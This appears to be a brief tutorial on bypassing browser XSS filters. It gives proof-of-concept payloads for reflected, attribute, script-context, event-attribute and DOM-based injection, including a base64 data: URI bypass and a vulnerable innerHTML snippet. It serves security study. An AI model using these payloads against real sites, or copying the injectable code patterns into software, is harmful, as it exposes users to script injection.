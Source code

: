 These filters try to protect users from XSS attacks but, they do not cover all possible XSS attack scenarios and only focuses on Reflected-type XSS.

One of the most common Reflected XSS vectors is the following, and it is detected by all main filters:
```html
<svg/onload=alert(1)>
```

Removing the final greater-than sign, we have a bypass for browsers running XSS Auditor.
## Injecting Inside HTML Tag Attributes
Another scenario is when it is possible to inject within HTML attributes:
```html
<div>
	Hello giuseppe"><svg/onload=alert(1)>
</div>
```

We can bypass WebKit with:
```txt
http://target-website.com/inject?x=giuseppe"><a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">clickhere<!--
```
## Injecting Inside script Tag
Often JavaScript variables are set with parameters from URL:
```txt
http://target-website.com/inject?x=giuseppe";alert(1);//
```
```html
<script>
	var x = "Injection";
</script>
```
## Injecting Inside Event Attributes
Event attributes are not inspected by native browser filters.
```txt
http://target-website.com/inject?roomID=alert(1)
```
```html
<button onclick="reserve(roomID);">
Reserve your sit!
</button>
```
## DOM-based
DOM based are not inspected by native browser filters.
```txt
http://target-website.com/inject?next=javascript:alert(1)
```
```html
<script>
...
var next = location.search.replace("?next=", "");
domEl.innerHTML = "<a href='"+next+"'>next page</a>";
```